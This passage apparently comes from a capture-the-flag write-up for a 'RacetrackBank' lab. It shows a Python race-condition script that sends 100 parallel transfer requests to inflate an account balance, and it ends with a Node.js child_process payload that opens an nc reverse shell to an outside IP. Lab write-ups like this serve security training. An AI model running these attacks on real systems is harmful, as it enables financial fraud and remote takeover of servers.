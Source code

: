 ```bash
    }
    data = f"user={user}&amount={amount}"
    rs = (grequests.post(url, data=data, cookies=cookies, headers=headers) for _ in range(100))
    responses = grequests.map(rs)
    print(f"{amount} gold has been sent to user {user}!")

def main():
    gold_needed = 0
    counter = 1
    while gold_needed < 10000:
        if counter % 2 == 0:
            print(f"{user_main}'s turn to send gold...")
            cookie, gold_needed = user_gold_and_cookie(user_main, pass_main)
            send_gold(user_add, cookie, gold_needed)
        else:
            print(f"{user_add}'s turn to send gold...")
            cookie, gold_needed = user_gold_and_cookie(user_add, pass_add)
            send_gold(user_main, cookie, gold_needed)
        counter += 1

if __name__ == "__main__":
    main()
 ```

<br>

```bash
:~/RacetrackBank# python3 script.py
 ```

<br>

<br>
<h3>Purchase</h3>

<img width="1400" height="419" alt="image" src="https://github.com/user-attachments/assets/13059f01-e943-471a-a44d-4aaf29a9d4fa" />


<br>
<h3>Premium Features</h3>

<img width="1409" height="456" alt="image" src="https://github.com/user-attachments/assets/3b0dd57c-3d14-42ba-b521-179bcf053779" />

<br>
<h3>process.cwd()</h3>

<img width="1401" height="489" alt="image" src="https://github.com/user-attachments/assets/d0b44b32-ebfe-4c5e-a7bd-53f839dde54e" />

<br>
<h3>Reverse Shell</h3>

```bash
require("child_process").exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc xx.xxx.xxx.xxx 9001 >/tmp/f')
```
